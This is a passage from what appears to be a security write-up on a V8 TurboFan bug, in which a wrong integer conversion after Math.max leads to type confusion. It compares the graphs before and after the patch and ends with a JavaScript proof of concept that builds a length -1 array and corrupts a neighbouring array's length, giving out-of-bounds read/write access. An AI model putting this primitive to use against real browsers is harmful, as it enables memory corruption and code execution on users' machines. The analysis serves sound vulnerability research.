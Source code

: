 The post-patch Turbolizer graph starts off very similarly to the pre-patch graph. However, rather than converting the output of `Math.max` via a TruncateInt64ToInt32 node, we see a CheckedUint64ToInt32 node.

In this post-patch graph we can see that TurboFan has now correctly identified that the input was an unsigned value (that needed to be used in a signed operation), before converting it to a 32-bit integer.

{{< figure alt="turbolizer-2.png" src="/img/20221206/turbolizer-2.png" caption="Figure 2: Patched turbolizer graph." >}}

In our case, as `use_info.type_check()` is kSigned32 rather than kNone, we fail the added check.

```c++
    } else if (/* ... */
        output_type.Is(Type::Unsigned32()) &&
        use_info.type_check() == TypeCheckKind::kNone /* ... */) {
```

Instead, our input is passed on to the following code that checks whether the output is a kPositiveSafeInteger, which it is, before being converted to a `CheckedUint64ToInt32` node, rather than a `TruncateInt64ToInt32` node.

```c++
      if (output_type.Is(cache_->kPositiveSafeInteger)) {
        op = simplified()->CheckedUint64ToInt32(use_info.feedback());
```


# 5. Exploitability

As this is bug was discovered prior to [this patch](https://bugs.chromium.org/p/chromium/issues/detail?id=1198696), we can use the `Array.prototype.shift` trick to create an array with a length of `-1`.

This gives us out-of-bounds read/write access below the array's element store. In the code snippet below, I use this to corrupt another array's length value, giving very stable out-of-bounds access. 

From this point it's a trivial exercise to build exploit primitives and gain code execution.

```js
function foo(a) {
  let x = 0xffffffff;
  if (a) x = -1;

  let z = Math.max(0, x);
  z = 0 - z; 
  z = Math.sign(z);

  let cor = new Array(z);
  cor.shift();

  let oob = [1.1, 2.2, 3.3];
  return { cor, oob };
}

for (let i = 0; i < 100000; i++)
  foo(true);

let { cor, oob } = foo(false);
cor[16] = 1337;
```
